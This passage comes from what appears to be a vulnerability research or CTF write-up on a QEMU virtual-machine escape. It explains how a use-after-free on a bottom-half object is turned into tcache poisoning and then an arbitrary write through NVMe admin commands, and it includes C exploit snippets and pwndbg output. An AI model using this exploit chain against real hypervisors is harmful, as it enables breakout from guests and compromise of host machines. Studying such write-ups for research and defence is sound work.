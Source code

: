 ```c
*(unsigned long *)(uaf_data + 0x38) = heap + 0x40340; // bh
```

Additionally, I made `&bh->ctx->bh_list` point to the 0x50 chunk of `tcache_perthread_struct` [7]. This means that after executing `QSLIST_INSERT_HEAD_ATOMIC()`, **the first chunk of the 0x50 tcache will point to the bh address**.

```c
unsigned long target_addr = heap + 0xa8; // address of tcache 0x50
*(unsigned long *)(bh + 0x0) = target_addr - 0xb8; // [7], ctx
*(unsigned long *)(bh + 0x28) = 0;                 // flags
```

The output of gdb debug message is as follows:

```
pwndbg> p bh
$6 = (QEMUBH *) 0x5621ed6de340

pwndbg> tcachebins
# [...]
0x50 [  7]: 0x5621ed6de340 ◂— 0x56248f77092e
# [...]
```



#### 6.5 Arbitrary Write

Due to the overlap between **the first chunk of tcache 0x50** and **the HDA stream 7 BDL object**, we can control the tcache fd pointer to any address by reallocating the stream 7 BDL. This allows us to allocate memory chunk at that address and control its content during the subsequent 0x50 chunk allocation. The specifics of tcache poisoning will not be detailed here.

It is important to note that since tcache poisoning occurs in the main thread heap, and both rtl8139 and hda are handled directly by the IO thread instead of BH, the allocation and release of objects must first go through an NVMe MMIO access. For this, I chose to use the NVMe admin command `NVME_ADM_CMD_SET_FEATURES` to set up the data to be written [1], and then `NVME_ADM_CMD_GET_FEATURES` to write the data to the MMIO of other devices [2]. This ensures that the main thread heap is used.

```c
// [1]
cmd.opcode = NVME_ADM_CMD_SET_FEATURES;
cmd.cdw10 = NVME_HOST_BEHAVIOR_SUPPORT;
cmd.dptr.prp1 = virt_to_phys(tmpbuf2); // written data
run_nvme_cmd_q0(&cmd);

// [2]
memset(&cmd, 0, sizeof(cmd));
cmd.opcode = NVME_ADM_CMD_GET_FEATURES;
cmd.cdw10 = NVME_HOST_BEHAVIOR_SUPPORT;
cmd.dptr.prp1 = 0xfebf9000 + TxPoll; // the MMIO of other devices
run_nvme_cmd_q0(&cmd);
```


